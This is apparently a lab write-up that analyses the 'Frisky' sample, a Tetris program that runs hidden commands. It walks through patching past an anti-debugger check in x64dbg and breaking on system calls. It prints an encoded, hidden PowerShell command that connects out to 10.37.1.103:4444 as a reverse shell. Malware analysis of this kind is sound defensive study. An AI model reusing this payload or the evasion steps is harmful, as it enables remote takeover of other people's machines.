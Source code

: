 # Frisky Analysis

### Project Location
[Frisky repo](https://github.com/UnDefinedCS/frisky)

### VM Environment
OS - Windows 11
Enable 3D Acceleration and max Video Memory (VirtualBox) **IMPORTANT**

Install the following:
- [Visual Studio C++ Redistributable](https://aka.ms/vs/17/release/VC_redist.x64.exe)
- [x64dbg](https://sourceforge.net/projects/x64dbg/files/latest/download)


### Walk-through
We can see after running tetris that we get a popup saying something about hypervisors, we can explore where this box came from the icon in the `taskbar`.

We can load up `x64dbg` and start reviewing the file. First lets look into the symbols tab, this shows insight on functions being ran.

We can see there is one that is concerning `IsDebuggerPresent` we can then show trying to run the program in the debugger we get a popup about the debugger.
![frisky_](image-2.png)

To get around this we can set a breakpoint to the call and edit the return value so we trick the program into thinking its not in a debugger.
Once we hit this breakpoint we can use the step to see where the flow goes, we are looking for a `test` instruction, this indicates a conditional check is performed.
![frisky2_](image-3.png)

Once we find this we can set the `RAX` register to `0`, RAX is the register used for return values of functions. We can also observe from the sides the strings that are displayed from the popups, we can use this to find the next test we need to `patch`.

Clearly the program is running system commands, so lets place a breakpoint on syscalls and try to extract the exact commands. There are a lot of potential symbols for syscalls:
msvcrt   | _system, _wsystem
kernel32 | CreateProcess
ntdll    | CreateProcessInternal, NTCreateUserProcess, NTCreateProcess

I entered substrings and only found `system` from `msvcrt`, so I added a breakpoint. After moving through I got a hit and now I can see the commands being ran!

![alt text](image-4.png)

We can see from the side text a better visual of the command being sent. We can click the line where the powershell command is at and take a better look into it.
![alt text](image-5.png)

==== Bottom Section of x64dbg ====
```
rax=0000028BB81660B0 "powershell -nop -W hidden -noni -ep bypass -e JAB2AGoAZQBiAGUAZgBiAHIAagB2ACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACcAMQAwAC4AMwA3AC4AMQAuADEAMAAzACcALAAgADQANAA0ADQAKQA7AA0ACgAkAGQAaQBoAGcAdQByAGgAZAAgAD0AIAAkAHYAagBlAGIAZQBmAGIAcgBqAHYALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwANAAoAJABhAGgAYwBlAGIAZgBqAGEAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAFMAdAByAGUAYQBtAFcAcgBpAHQAZQByACgAJABkAGkAaABnAHUAcgBoAGQAKQA7AA0ACgANAAoAZgB1AG4AYwB0AGkAbwBuACAASABJA"
```

We can take this base64 string to [cyberchef](https://gchq.github.io/CyberChef/) and see whats being ran. This is a partial, from intuition this is potentially a `shell script`, but I want to get everything this program has to offer.

We can go back to the original line using `right-click > follow in dump > RAX`. We can then copy and paste the lines into [cyberchef](https://gchq.github.io/CyberChef/) and with some find-replace magic we now have the full shell-script! We can also always take exe files to `Ghidra` and reverse engineer them there as well!